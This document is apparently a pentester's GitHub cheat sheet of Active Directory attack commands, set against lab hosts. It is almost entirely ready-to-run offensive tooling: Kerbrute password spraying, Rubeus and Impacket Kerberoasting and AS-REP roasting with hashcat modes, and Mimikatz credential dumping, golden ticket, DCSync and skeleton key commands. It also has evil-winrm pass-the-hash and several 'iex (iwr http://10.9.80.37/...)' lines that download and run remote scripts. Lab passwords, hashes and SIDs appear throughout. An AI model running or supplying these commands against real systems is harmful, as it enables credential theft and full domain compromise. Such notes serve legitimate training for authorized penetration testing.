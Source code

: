 KERBRUTE

Path
~/hack/tools/kerbrute-1.0.3

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Enumeration
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

Password Spray
./kerbrute_linux_amd64 passwordspray --dc controller.local -d controller.local ./wordlist.txt Password1


RUBEUS

Harvest TGT's from Host
Rubeus.exe harvest /interval:30 

Password Spray
Rubeus.exe brute /password:Password1 /noticket

Kerberoast
Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash.txt Pass.txt

AS-REP Roasting -Pre-Auth Disabled
	• Rubeus.exe asreproast  - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes
	• Crack those Hashes w/ hashcat - 
		○ 1.) Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file
		○ 2.) Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....
		○ 3.) hashcat -m 18200 hash.txt Pass.txt - crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200
	

IMPACKET

kERBEROAST
Kerberoast - EXECUTED REMOTELY FROM KALI, ENUMRATES AND REQUESTS ALL KERBEROASTABLE ACCOUNTS
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.105.214 -request

AS-REP Roasting
GetNPUsers.py
GetNPUsers.py <DOMAIN NAME>/ -no-pass -usersfile usernames.txt

Dump Secrets
secretsdump.py thm-ad/backup:'backup2517860'@thm-ad

MIMIKATZ

Download and Dump Creds
iex (iwr http://10.9.80.37/Invoke-Mimikatz.ps1 -UseBasicParsing);Invoke-Mimikatz -DumpCreds

Dump Hashes
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
hashcat -m 1000 <hash> rockyou.txt

Export Tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

Pass the Ticket
 Invoke-Mimikatz -Command '"kerberos::ptt [0;59dfa]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi"'

Golden Ticket Attack

	1. Execute mimikatz on DC as DA to get krbtgt hash
		a. Invoke-Mimikatz -Command '"lsadump::lsa /patch"' –Computername dcorp-dc 
	2. On any machine 
		a. Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges: 
	• Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"' 
Using the DCSync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500 /groups:512 /ptt"'

Skeleton Key
Invoke-Mimikatz -Command '"misc::skeleton"'

POWERVIEW

iex (iwr http://10.9.80.37/PowerView3.ps1 -UseBasicParsing)

EVIL-WINRM

PTH
evil-winrm -i thm-ad -u administrator -H 0e0363213e37b94221497260b0bcb4fc

BLOODHOUND

iex (iwr http://10.9.80.37/SharpHound.ps1 -UseBasicParsing)
Invoke-BloodHound -CollectionMethod ALL



![image](https://user-images.githubusercontent.com/64317373/169731567-38f0a1ae-ac81-4641-9e24-088fa6a082b5.png)


